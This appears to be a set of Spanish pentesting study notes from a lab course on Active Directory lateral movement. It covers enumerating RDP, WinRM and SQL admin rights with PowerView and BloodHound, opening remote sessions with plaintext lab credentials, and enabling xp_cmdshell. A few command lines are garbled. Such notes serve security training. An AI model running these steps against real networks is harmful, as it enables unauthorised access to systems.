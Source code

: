 #rdp #mssql #winrm
Nos planteamos este escenario cuando somos un usuario sin privilegios administrativos locales o de dominio. Aún podemos tratar de movernos entre distintos hosts. Bloodhound nos permite comprobar escenarios del tipo 
- [CanRDP](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#canrdp)
- [CanPSRemote](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#canpsremote)
- [SQLAdmin](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#sqladmin)
## RDP
### Enumerando usuarios y equipos del grupo RDesktop 
#### Comprobando usuarios que tienen acceso vía rdp a un equipo 
- Con Powershell `Get-NetLocalGroupMember`
	```powershell
	Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"
	```
- Con `bloodound` 
	- Seleccionamos el nodo
	- Buscamos inbound execution rights (derechos de ejecución entrante)
	- Opciones RDP
#### Buscando equipos que permitan RDP 
- PowerView (No comprobado)
	```powershell
	$computers = Get-NetComputer -FullData | Select-Object dnshostname 
	foreach ($computer in $computers) { Get-NetLocalGroupMember -ComputerName $computer.dnshostname -GroupName "Remote Desktop Users" }
	```
- Bloodhound
	```cypher
	match p=(g:Group)-[:CanRDP]->(c:Computer)  where g.name STARTS WITH 'DOMAIN USERS'  AND c.operatingsystem CONTAINS 'Server'  return p
	```
## WinRM
### Enumerando usuarios del grupo Remote Managment
- **Con powerview** `Get-NetLocalGroupMember`
    ```powershell
     Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"
    ```
    
- Con query personalizada en bloodhound
    ```
    MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p
    ```
### Estableciendo sesión
- Windows
	```powershell
		$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -ForcePS $cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password) 
		Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred
	```
-  Para subir/descargar archivos en una sesión `evil-winrm`
	- Subir archivos
		```powershell
		upload /home/user/scripts/exploit.ps1 C:\Users\Administrador\Desktop\exploit.ps1
		```
	- Descargar archivos
		```
		download C:\ruta\archivo.txt /ruta/local/archivo.txt
		```
- Linux
	```bash
	evil-winrm -i $target -u <username>
	```


### Estableciendo sesión - problema del double Hop
Dado que en WinRM obteenmos un ticket TGS, no podemos ejecutar algunos comandos que involucran comunicarse con otros hosts. Ejemplo:
```powershell
#Comando desde la máquina atacante para establecer powershell remoting (OK)
Enter-PSSession -ComputerName DEV01 -Credential INLANEFREIGHT\\backupadm
# El comando a continuación ejecuta una solicitud LDAP o Kerberos a DC01 (Falla)
Get-DomainUser -SPN
```
#### Solución 1: **PSCredential Object**

Una posible solución es envíar nuevamente nuestras credenciales
```powershell
$SecPassword = ConvertTo-SecureString '!qazXSW@' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\\backupadm', $SecPassword)
```

Ahora, si intentamos ejecutar comandos que involucren servicios con autenticación delegada e incluimos la flag `-credenti-Credentialal $Cred` , podremos acceder a estos servicios:
```powershell
get-domainuser -spn -credential $Cred | select samaccountname
```

#### Solución 2: **Register PSSession Configuration**

Otra solución es que en la sesión de autenticación se pasen, además de las credenciales de `backupadm` para que siempre se ejecuten los comandos con las credenciales de este usuario.
```powershell
Register-PSSessionConfiguration -Name backupadmsess -RunAsCredential inlanefreight\\backupadm
Enter-PSSession -ComputerName DEV01 -Credential INLANEFREIGHT\\backupadm -ConfigurationName  backupadmsess
```

## SQL Server
### Enumerando usuarios con derechos de administrador en SQL
- Query personalizada de Bloodhound
	```cypher
	MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
	```
### PowerUpSQ,1443
- [Chuleta interesante](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)
- Enumerando instancias de MSSQL    
    ```powershell
    cd .\\PowerUpSQL\\
    Import-Module .\\PowerUpSQL.ps1
    Get-SQLInstanceDomain
    ```
- Autenticando sobre una instancia MSSQL (Windows)
    ```powershell
    Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\\damundsen" -password "SQL1234!" -query 'Select @@version'
    ```
- Autenticando sobre una instancia MSSQL - Linux
    ```bash
    #Con credenciales Windows
    mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth 
    #Con credenciales mssql
    mssqlclient.py INLANEFREIGHT/netdb@172.16.7.60
    ```
- Una vez autenticados
	- Seleccionando  **enable_xp_cmdshell**
	    ```bash
	    SQL> enable_xp_cmdshell
	    ```

	- Ejecutando comandos a nivel de sistema
	    ```bash
	    xp_cmdshell whoami /priv
	    ```

## Obtener PS como otro usuario - Windows
### Runas
```powershell
tpetty
```
### psexec
- Ejecutar ps como otro usuario
	```powershell
	psexec.exe -u DOMAIN\Username -p Password powershell.exe
	```

